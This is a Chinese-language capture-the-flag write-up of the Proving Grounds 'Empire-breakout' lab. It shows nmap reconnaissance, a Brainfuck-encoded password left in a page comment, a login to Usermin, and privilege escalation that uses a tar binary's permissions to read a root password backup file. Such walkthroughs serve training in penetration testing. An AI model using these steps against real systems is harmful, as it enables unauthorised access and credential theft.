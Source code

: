 # Proving Grounds->Empire-breakout 靶场笔记

![image-20230417124103539](https://s2.loli.net/2023/04/23/nX6xFrvo2sI8ZlN.png)

## 0x00准备工作

- clash连接美国代理节点，并开启系统代理，全局模式。我这边实测HK、JP节点连不上。
- openvpn选择使用系统代理设置
- ping 192.168.180.238 -t     测下延迟

笔者连接上延迟稳定在300ms~500ms,处于够用的水平，如果读者有更快的连接节点，请通知我。

```
老外的思路
https://al1z4deh.medium.com/vulnhub-empire-breakout-dc3170d7748f
```

![image-20230417124913301](https://s2.loli.net/2023/04/23/eCSQ2zdbtPvRBrO.png)

## 0x01信息收集

在开启靶机后，使用nmap对IP段进行探测

```
nmap -sn -v 192.168.180.0/24
```

发现只有.238和.254开放

- 初步判断，254应该是内网网关，且没有其他存活IP，目标锁定.238

- 对.238进行端口检测

  ```
  nmap --open 192.168.180.238
  ```

  扫描结果

  | PORT      | STATE | SERVICE          |
  | --------- | ----- | ---------------- |
  | 80/tcp    | open  | http             |
  | 10000/tcp | open  | snet-sensor-mgmt |
  | 20000/tcp | open  | dnp              |

  更好的扫描

  ```
  nmap -p- -sV -sC --open 192.168.180.238
  
  Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-17 14:27 中国标准时间
  Nmap scan report for bogon (192.168.180.238)
  Host is up (0.42s latency).
  Not shown: 65508 closed tcp ports (reset), 24 filtered tcp ports (no-response)
  Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
  PORT      STATE SERVICE VERSION
  80/tcp    open  http    Apache httpd 2.4.51 ((Debian))
  |_http-title: Apache2 Debian Default Page: It works
  |_http-server-header: Apache/2.4.51 (Debian)
  10000/tcp open  http    MiniServ 1.981 (Webmin httpd)
  |_http-title: 200 &mdash; Document follows
  |_http-server-header: MiniServ/1.981
  20000/tcp open  http    MiniServ 1.830 (Webmin httpd)
  |_http-title: 200 &mdash; Document follows
  |_http-server-header: MiniServ/1.830
  ```

  

  看下这三个端口

  80端口

![image-20230417130526933](https://s2.loli.net/2023/04/23/F7AzQDB8ent1ULJ.png)

能得到信息就是，靶机应该是一台debian系Linux服务器，且安装了Apache2

1000端口

![image-20230417131608927](https://s2.loli.net/2023/04/23/FM5ZdugOwoNXTH4.png)

2000端口

![image-20230417131637695](https://s2.loli.net/2023/04/23/1KQzFGm7gvlJfYe.png)

是两个登录界面，一个是Webmin，一个是Usermin

使用Dirsearch对目录进行爆破，使用的默认字典，一无所获。

之后开始尝试brup对IP进行深度扫描，找到一个robots.txt 结果直接报错not found

但是得到了版本号Apache/2.4.51

```
Not Found
The requested URL was not found on this server.

Apache/2.4.51 (Debian) Server at 192.168.180.238 Port 80
```

f12打开源代码之后，拉到最底下，发现了疑似密码的东西

```
<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.


-->
```

解密站点http://www.hiencode.com/brain.html

```
.2uqPEfj3D<P'a-3 这个可能是某个登录页面的密码
```

查询老外的wp发现cyber可能是2000的用户名,一发入魂

```
user cyber
pswd .2uqPEfj3D<P'a-3
```

连上20000之后，可以进入Linux命令行

```
ls 可以看到 一个local.txt tar
cat local.txt 可以得到第一个flag
看一下 tar的权限
接着搜索常见备份目录
/var/backups/
找到.old_pass.bak 
利用 tar的 权限改变.old_pass.bak 的权限
./tar -cf pass.tar /var/backups/.old_pass.bak 
tar -xf pass.tar 
cat var/backups/.old_pass.bak 
得到root的密码
接着登录10000
进入命令行
ls -al /root
在root目录拿到第二个flag结束战斗

```

### 简单总结

1. 经过复盘发现，pg官方改了Empire-breakout这个靶场，cyber这个用户名获得的比较唐突，可能是为了降低难度吧，简化了步骤。
2. 关于webmin和usermin后续会继续发文章分析。
3. 利用tar提权的功能点在后续也会总结。

